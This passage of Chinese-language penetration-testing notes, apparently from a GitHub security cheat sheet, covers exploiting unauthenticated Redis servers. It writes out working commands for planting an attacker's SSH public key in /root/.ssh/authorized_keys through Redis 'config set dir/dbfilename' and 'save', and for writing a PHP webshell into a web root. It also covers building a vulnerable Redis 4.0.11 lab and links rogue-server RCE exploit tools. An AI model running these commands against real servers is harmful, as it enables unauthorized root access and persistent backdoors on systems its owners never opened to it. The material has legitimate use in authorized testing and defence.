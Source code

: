     **写 ssh-keygen 公钥然后使用私钥登陆**

    在以下条件下,可以利用此方法
    1. Redis 服务使用 ROOT 账号启动
    2. 服务器开放了 SSH 服务,而且允许使用密钥登录,即可远程写入一个公钥,直接登录远程服务器.

    首先在本地生成一对密钥 `ssh-keygen -t rsa` 然后执行命令:
    ```bash
    # 将公钥的内容写到一个文本中命令如下
    (echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > test.txt

    # 将里面的内容写入远程的 Redis 服务器上并且设置其 Key 为 test命令如下
    cat test.txt | redis -cli -h <hostname> -x set test
    redis-cli -h <hostname>
    keys *
    get test
    config set dir "/root/.ssh"
    config set dbfilename "authorized_keys"
    save
    ```
    保存后可以直接利用公钥登录 ssh

    **往 web 物理路径写 webshell**

    当 redis 权限不高时,并且服务器开着 web 服务,在 redis 有 web 目录写权限时,可以尝试往 web 路径写 webshell,执行以下命令
    ```bash
    > config set dir /var/www/html/
    > config set dbfilename shell.php
    > set x "<?php phpinfo();?>"
    > save
    ```
    即可将 shell 写入 web 目录(web 目录根据实际情况)

**主从复制远程代码执行漏洞**
- 搭建环境
    ```bash
    yum install tcl
    wget download.redis.io/releases/redis-4.0.11.tar.gz
    tar zxf redis-4.0.11.tar.gz
    cd redis-4.0.11
    make PREFIX=/usr/local/redis install

    /usr/local/redis/bin/redis-server

    参考 https://mp.weixin.qq.com/s/MSWLqzyNnliX1G7TRYAwVw
    ```

- 文章
    - [Redis 基于主从复制的 RCE 利用方式](https://paper.seebug.org/975/)

- POC | Payload | exp
    - [n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)
    - [Ridter/redis-rce](https://github.com/Ridter/redis-rce)
    - [n0b0dyCN/RedisModules-ExecuteCommand](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand)
